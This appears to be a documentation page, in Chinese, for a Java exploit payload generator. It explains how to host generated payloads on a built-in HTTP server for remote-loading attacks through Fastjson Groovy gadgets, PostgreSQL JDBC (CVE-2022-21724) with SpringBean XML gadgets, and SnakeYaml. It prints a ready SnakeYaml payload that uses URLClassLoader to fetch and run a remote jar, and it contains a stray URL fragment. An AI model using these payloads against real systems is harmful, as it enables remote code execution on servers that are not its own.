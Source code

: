 ```yaml
---
sidebar_position: 6
---
```


# HTTP Server

一个简单的HTTP Server，可以将生成的 Payload 挂载到HTTP端口上，方便某些 HTTP URL 的反连场景。

## Fastjson Groovy 远程加载

Gadget名：`GroovyJarConvert`

使用 HTTP Server 并开启对应 HTTP 端口，选择 OtherPayload
在级联选择器中勾选 GroovyJarConvert，此 Gadget 会将字节码处理为 Groovy Jar Payload 格式，也就是Jar包，然后通过 HTTP Server
挂在到一个 HTTP 端口上，点击生成后会生成一个 HTTP 链接，放到 fastjson groovy payload 中即可使用

![](@site/static/doc/fastjson-groovy.png)

## PostgreSQL JDBC 的利用

可选的 Gadget：

- `SpringBeanXmlClassLoader`
- `SpringBeanXmlExec`
- `SpringBeanXmlSpEL`

PostgreSQL (CVE-2022-21724) 配合 SpringBean 远程加载XML文件，执行字节码并回显

![](@site/static/doc/postgresql-jdbc.png)

![](@site/static/doc/postgresql-jdbc2.png)
om/LandGrey/spring-boot-upload-file-lead-to-rce-tricks

## SnakeYaml Jar 远程加载

Gadget 名：`SnakeyamlJarConvert`

生成过程与上面类似，不再过多阐述

通常配合如下 SnakeYaml Payload，实现远程加载 RCE

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [ [
    !!java.net.URL [ "http://127.0.0.1:7777/yaml-payload.jar" ]
  ] ]
]
```

参考：

- https://tttang.com/archive/1815/#toc_snakeyaml_1
- https://github.com/artsploit/yaml-payload
